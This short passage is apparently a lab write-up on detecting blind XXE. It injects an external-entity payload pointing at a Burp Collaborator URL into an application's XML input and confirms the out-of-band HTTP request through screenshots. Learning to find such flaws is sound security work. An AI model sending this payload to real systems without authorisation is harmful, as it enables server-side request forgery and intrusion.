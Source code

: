 The application has an XML input:
![](imgs/blind_xxe_ssrf_to_attacker_endpoint.png)

But the response is not shown, so we can't see the information. We can add our Burp Collaborator URL to verify if there is an XXE:
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://dp642hkvw5hdwfpnasicsyf9n0trhi57.oastify.com"> ]>`

![](imgs/blind_xxe_ssrf_to_attacker_endpoint-1.png)

If we check our Burp Collaborator, an HTTP request has been performed: 
![](imgs/blind_xxe_ssrf_to_attacker_endpoint-2.png)